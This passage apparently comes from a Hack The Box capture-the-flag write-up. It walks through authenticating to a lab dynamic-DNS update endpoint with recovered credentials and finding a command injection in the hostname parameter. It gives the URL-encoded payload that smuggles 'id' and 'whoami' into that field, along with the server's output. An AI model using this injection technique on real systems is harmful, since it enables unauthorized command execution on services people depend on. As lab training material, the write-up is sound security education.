 ```
GET /nic/update?hostname=mytest.example.com&myip=192.0.2.25 HTTP/1.1
Host: dynupdate.no-ip.com
Authorization: Basic base64-encoded-auth-string
```

Next, what we have to do is to find the base64-encoded-auth string. From earlier, we are able to know that the username is ```dynadns``` and the password is ```sndanyd```. Hence, we 
can know that the auth-string will be ```dynadns:sndanyd```. Now we we base64 encode the authentication string.
```
┌──(kali㉿kali)-[~]
└─$ echo -n "dynadns:sndanyd" | base64
ZHluYWRuczpzbmRhbnlk
```
Editing the request for ```/nic/update```, we get a wrong domain error ```911 [wrngdom: htb]```. The request that we are using is as follows:

```
GET /nic/update?hostname=dyna.htb HTTP/1.1
Host: dyna.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic ZHluYWRuczpzbmRhbnlk
Connection: close
Upgrade-Insecure-Requests: 1
```

After a while, we realized changing the parameter for hostname in the url path to ```dynamicdns.no-ip.htb``` allows us to receive a response as follows:

```
HTTP/1.1 200 OK
Date: Sat, 21 Aug 2021 02:47:35 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 18
Connection: close
Content-Type: text/html; charset=UTF-8

good <Redacted IP address>
```

We also realized that changing the hostname to ```;'dynamicdns.no-ip.htb``` will return an error code ```911 [nsupdate failed]```. This is an indication that this endpoint is vulnerable to command injection. We will first create a POC to execute ```id``` and ```whoami``` command. We will modify the payload by first encoding the payload ```" | id&&whoami```. The URL encoded payload for hostname will be ```%22%20%7c%20id%26%26whoami;dynamicdns.no-ip.htb```. In the response, we are able to receive the output to the 2 commands, which showed that the POC is successful.
```
HTTP/1.1 200 OK
Date: Sat, 21 Aug 2021 04:16:35 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 81
Connection: close
Content-Type: text/html; charset=UTF-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
good <Redacted IP address>
```
